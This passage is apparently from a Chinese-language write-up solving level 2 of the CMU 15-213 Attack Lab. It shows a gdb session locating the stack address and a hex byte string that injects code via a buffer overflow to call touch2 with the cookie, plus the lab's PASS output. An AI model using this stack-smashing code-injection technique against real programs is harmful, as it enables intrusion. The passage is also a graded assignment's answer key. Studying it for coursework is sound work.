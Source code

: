 接下来要找到getbuf执行完毕后%rsp的地址，即注入代码的起始地址

利用gdb调试

```
(gdb) b getbuf
Breakpoint 1 at 0x4017a8: file buf.c, line 12.
(gdb) r -q
Starting program: /media/sf_virtualBoxShare/15-213/attacklab/target1/ctarget -q
Cookie: 0x59b997fa

Breakpoint 1, getbuf () at buf.c:12
12	buf.c: No such file or directory.
(gdb) disas
Dump of assembler code for function getbuf:
=> 0x00000000004017a8 <+0>:	sub    $0x28,%rsp
   0x00000000004017ac <+4>:	mov    %rsp,%rdi
   0x00000000004017af <+7>:	callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    $0x1,%eax
   0x00000000004017b9 <+17>:	add    $0x28,%rsp
   0x00000000004017bd <+21>:	retq
End of assembler dump.
(gdb) stepi
14	in buf.c
(gdb) x $rsp
0x5561dc78:	0x00000000
```

得到rsp为0x5561dc78

则我们的攻击序列为

```
48 c7 c7 fa 97 b9 59 68 
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

结果：

```shell
$ ./ctarget -qi cl2raw.txt
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55
```

